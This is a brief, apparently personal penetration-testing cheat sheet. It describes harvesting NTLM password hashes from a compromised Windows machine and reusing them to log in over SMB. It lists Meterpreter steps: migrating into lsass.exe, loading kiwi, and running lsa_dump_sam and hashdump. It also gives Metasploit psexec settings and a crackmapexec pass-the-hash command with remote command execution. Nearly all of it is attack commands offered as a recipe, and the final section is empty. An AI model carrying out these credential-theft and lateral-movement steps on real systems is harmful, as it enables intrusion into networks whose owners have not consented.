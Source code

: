 
harvesting ntlm hashes and using them to authenticate with target via SMB

Methodology
=
1. get meterpreter shell with escelated priviledges
2. migrate to lsass.exe process `pgrep lsass`
3. `load kiwi`
4. `lsa_dump_sam` - make file with username: hash
5. `hashdump` - get LM hashes (format: username:sid:LMhash:NTLMhash:::)
6. use metasploit `exploit/windows/smb/psexec`
	1. set user
	2. set pass as with LM:NTLM hash
	3. may need to set/configure target, try different targets `set target `
7. run

crackmapexec
=
`crackmapexec smb target -u username -H NTLM_HASH_ALONE`
	-x "commands" - look past errors, go back to the top

PsExec (MSF)
=